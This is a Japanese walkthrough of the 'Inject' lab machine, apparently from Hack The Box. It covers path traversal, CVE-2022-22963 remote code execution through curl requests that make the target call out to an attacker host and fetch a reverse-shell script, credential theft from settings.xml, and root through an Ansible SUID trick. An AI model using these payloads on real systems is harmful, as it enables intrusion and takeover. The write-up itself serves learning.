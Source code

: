 ## Inject

まずは、nmapをする。  
![](images/inject/1.png)

22(ssh)と8080(http)が開いている。  
ブラウザから8080にアクセスする。  
![](images/inject/2.png)

「Sign Up」ボタンがあるので、見てみる。  
![](images/inject/15.png)

実装されていないみたい。  
次に「Upload」にアクセスしてみる。  
![](images/inject/3.png)

ファイルをアップロードできるみたい。  
PHPファイルをアップロードして、reverse shellを獲得できるか試してみる。  
![](images/inject/4.png)

画像ファイルしか受け付けないみたい。  
回避できないかと、Content-typeを変更してみたり、二重拡張子を試すが失敗。この方法で突破しないみたい。  
素直に画像ファイルをアップロードする。  
![](images/inject/5.png)

アップロードが成功した。「View your Image」のリンクに飛んでみる。  
![](images/inject/6.png)

```
http://10.10.11.204:8080/show_image?img=cat.jpg
```
上記のようなURLとなっている。  
パラメーターの値が`cat.jpg`となっており、いじってみる。  
パストラバーサルを試してみる。  
![](images/inject/8.png)

ブラウザが画像ファイルとして読み出そうとしたのか、エラーが発生した。  
`curl`からアクセスしてみると成功する。  

そして、存在しない画像ファイルをcurlでアクセスすると、  
以下のようなレスポンスが返される。  
```
{"timestamp":"2023-03-27T11:42:26.665+00:00","status":500,"error":"Internal Server Error","message":"URL [file:/var/www/WebApp/src/main/uploads/asd.jpg] cannot be resolved in the file system for checking its content length","path":"/show_image"}
```

さらに、パラメーターの値でファイルではなくディレクトリを指定すると、  
そのディレクトリ配下のファイルが表示される。  
```
curl http://inject.htb:8080/show_image?img=../../../../../../../../../../../../../
```

![](images/inject/16.png)

存在しない画像ファイルを取得した際に開示されたパスから`/var/www/WebApp`を見てみる。  
![](images/inject/17.png)

`pom.xml`を見る。  
![](images/inject/9.png)

`spring-cloud-function-web`の`version 3.2.2`を使用しているのがわかる。  

既知の欠陥がないか調べる。  
`CVE-2022-22963`が見つかる。  
参照(https://www.scsk.jp/sp/sysdig/blog/container_security/cve-2022-22963_spring_cloud_rce.html)

Spring Cloud Functionは、関数（Function）を使ってロジックを実行する仕組みです。特定の実行環境に依存せず、  
同じコードでWebのエンドポイント、ストリーム処理、タスクを実行ができるみたいです。  

そして、CVE-2022-22963でHTTPリクエストヘッダからRCEが可能な欠陥があったみたいです。  

以下のようなリクエストで欠陥を利用する。  
```
curl -i -s -k -X $'POST' -H $'Host: inject.htb:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"nc 10.10.14.42 1234")' --data-binary $'exploit_poc' $'http://inject.htb:8080/functionRouter'
```

reverse shellを獲得するために、bashのrev shellを書いたスクリプトファイルをダウンロードさせる。  
```
curl -i -s -k -X $'POST' -H $'Host: inject.htb:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"curl 10.10.14.42:1234/reverse -o /tmp/rev")' --data-binary $'exploit_poc' $'http://inject.htb:8080/functionRouter'
```

アップロードしたbashスクリプトを実行させる。  
```
curl -i -s -k -X $'POST' -H $'Host: inject.htb:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"bash /tmp/rev")' --data-binary $'exploit_poc' $'http://inject.htb:8080/functionRouter'
```

リバースシェルを獲得する。  
![](images/inject/10.png)

`frank`ユーザーを使用しており、ホームディレクトリに隠しディレクトリが見つかる。  
![](images/inject/11.png)

.m2 ディレクトリ下に`settings.xml`ファイルが見つかり、catすると`phil`ユーザーのパスワードが見つかる。  
![](images/inject/12.png)

クレデンシャル情報を使用し、`phil`ユーザーにログインする。  
`/opt`下にディレクトリが見つかり、cdしていくとymlファイルが見つかる。  
![](images/inject/13.png)

このymlファイルを裏でなにかしていると想像し、`pspy`を使用で確認をする。  
しばらくすると、  
`/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml`  
を実行された。  

`ansible-parallel`はAnsibleを使用して実行するタスクを並列実行するためのツールであり、  
ymlファイルの構成ファイルに基づいて、並列実行するホストのグループを指定する。  

ワイルドカードで、拡張子がymlのファイルをroot権限で実行しているみたいなので、  
以下を記述した構成ファイルをアップロードする。  
```
- hosts: localhost
  tasks:
    - name: hoge
      command: chmod u+s /bin/bash
```

しばらくすると、Ansibleが実行され`/bin/bash`にrootのSUIDが付与される。  
`bash -p`を実行して、rootフラグをゲットする。  

